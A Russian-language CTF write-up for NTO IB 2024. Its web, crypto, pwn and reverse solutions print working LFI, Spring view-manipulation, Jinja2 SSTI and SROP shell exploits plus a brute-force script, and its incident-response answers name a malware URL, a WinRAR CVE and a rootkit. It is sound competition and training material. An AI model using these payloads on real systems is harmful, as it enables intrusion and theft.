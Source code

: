 # Решения заданий НТО ИБ 2024 1337Rpwn4
# CTF

## Этап 1: Наступательная кибербезопасность

### WEB 1

Заходим на таск и видим календарь, один из дней на котором окрашен в типичную HTML-гиперссылку. Нажимаем. Идёт редирект на: `/download?file_type=file1.txt`

Пробуем LFI:
```
download?file_type=../../../../../../../../../etc/secret
```

Флаг: `nto{P6t9_T77v6RsA1}`

### WEB 2

Заливаем `jar`-файл в `jd-gui` и видим следующий, казалось бы, пустой метод:

```
  @GetMapping({"/doc/{document}"})
  public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
  }
```

Пробуем `Spring View Manipulation Vulnerability`:

```
/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::..x
```

Флаг: `nto{abobovichasdfas}`

### WEB 3

На эндпоинте `/flag` видим 403 ошибку. Заходим в исходники и находим `haproxy`. Пробуем дефолтные байпассы, сработал, например, `//flag`.

Далее фильтруемая `SSTI` в `Jinja2`. Гуглим хактриксы и вводим:

```
//flag?name={{(request|attr(request.args.c))._load_form_data.__globals__.__builtins__.open(%22flag.txt%22).read()}}&c=__class__
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`

### Crypto 1

На сервере существует эндпоинт для проверки пина, известно что пин - число и зашифрованный правильный пин маленького размера => Можно написать брутфорс

Код брутфорса:
```python
import requests
import time


url = "http://192.168.12.12:5000/api"

if __name__ == "__main__":
    print()
    for i in range(10 ** 10):
        resp = requests.post(url + "/CheckPin", json={'pin': i})
        if resp.status_code != 500:
            print("!!!!{}!!!!".format(resp.json()))
            break
        else:
            print(i)
        time.sleep(0.01)
```

### PWN 2

Решение бинарной уязвимости было взято из примеров: [ссылка1](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), [ссылка2](https://github.com/ir0nstone/pwn-notes/blob/master/types/stack/syscalls/exploitation-with-syscalls.md)

Код:
```python
from pwn import *

elf = context.binary = ELF('./task')
p = remote("192.168.12.13", 1555)

binsh = elf.address + 0x1430

POP_RAX = 0x41018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = binsh
frame.rsi = 0x0
frame.rdx = 0x0
frame.rip = SYSCALL

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xF)
payload += p64(SYSCALL)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

### Reverse 1

В задании флаг проверялся по чексумме которая записана по пути `0x00104040`, что в hex `f3e1cfed23cd6b6457adf950e1b199f2e4b6a9c64c618032022b7793433a2cab6a930d2ad414fa1b2f6f5d256bf647c4f56cd95a12ad64e9`. Флаг проверяется CRC32 по 32 бита. Подбираем значения по 2 буквы по чексумме CRC32.
Код 
```python
from binascii import unhexlify, crc32

data = unhexlify("f3e1cfed23cd6b6457adf950e1b199f2e4b6a9c64c618032022b7793433a2cab6a930d2ad414fa1b2f6f5d256bf647c4f56cd95a12ad64e9")
strings = [data[itt:itt+4] for itt in range(0, len(data) - 3, 4)]
answer = ""

for i in strings:
    flag = 0
    for first in range(2 ** 8):
        for second in range(2 ** 8):
            data = [first, second]
            if crc32(bytes(data)) == int.from_bytes(i, byteorder='little'):
                answer = answer +  "".join(map(chr, data))
                flag = 1
                break
        if flag:
            break
print(answer)
```
## Этап 2: Расследование инцидента

### Задание №1:

1. Вредоносное ПО было скачано с подозрительного письма с почты в архиве
По легенде + список открытых файлов на системе с помощью BrowsingHistoryView

2. [http://95.169.192.220:8080/prikol.exe](http://95.169.192.220:8080/prikol.exe)
Просмотр логов системы -> логи Powershell в 18:44 03.03.2024 Rjomba.exe выполняет загрузку
3. winrar cve-2023-38831

4. Win32 API, IsDebuggerPresent()

5. AES CBC 256bit

6. CBC ключ: amogusamogusamogusamogusamogusa, IV: abababababababab

7. Апи телеграмма
Просмотр сетевого wireshark-дампа на чистой машине (поставили чистый образ win10 в виртуалку)
8. sFYZ#2z9VdUR9sm`3JRz
При имебющем ключе шифрования данных и IV расшифровать не сложно (юзали рандом сайтик)

### Задание №2:

7. в /root/.bash_history да и в /XxJynx можно заметить руткит jynx2

